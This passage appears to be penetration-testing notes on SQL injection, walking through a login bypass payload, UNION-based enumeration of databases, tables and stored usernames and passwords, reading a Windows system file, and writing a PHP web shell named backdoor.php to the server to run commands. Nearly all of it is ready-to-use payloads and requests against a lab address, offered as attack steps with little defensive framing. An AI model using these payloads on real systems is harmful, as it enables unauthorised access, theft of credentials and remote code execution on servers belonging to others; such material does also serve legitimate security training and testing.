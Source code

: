 To replicate in a web application, we submit the following payload into a username field:

```
tom' or 1=1 LIMIT 1;#
```

This should result in a authenticated session login.

#### Enumerating Databases

```
http://10.14.1.23/test.php?id=1' - begin testing with single quote
http://10.14.1.23/test.php?id=1 order by 1 - attempt to sort by first column
```

If this is successful and we receive the name of column, we can continue to increase the number until we receive an error. This can be performed manually or automated in BurpSuite Repeater.

Next we can extract row information using the UNION statement.

```
http://10.14.1.23/test.php?id=1 union all select 1, 2, 3, 4
```

Depending on how the information is displayed, we can then modify our input to extract more information. In the following example we've identified that the column three falls in a logical spot on the page.

```
http://10.14.1.23/test.php?id=1 union all select 1, 2, @@version
http://10.14.1.23/test.php?id=1 union all select 1, 2, user()
http://10.14.1.23/test.php?id=1 union all select 1, 2, table_name from information_schema.tables
http://10.14.1.23/test.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
http://10.14.1.23/test.php?id=1 union all select 1, username, password from users
```

#### Code Execution

In some cases we can use SQL injection to read/write system files and possibly write PHP onto the system for execution.

```
http://10.14.1.23/test.php?id=1 union all select 1, 2, load_file('C://Windows/System32/drivers/etc/hosts')
```

If this is successful we can attempt to create a malicious file on the server.

```
http://10.14.1.23/test.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

We may then be able to access the file with a command.

```
http://10.14.1.23/backdoor.php?cmd=id
```

If this succeeds, we can expand access by installing a full php shell on the server.
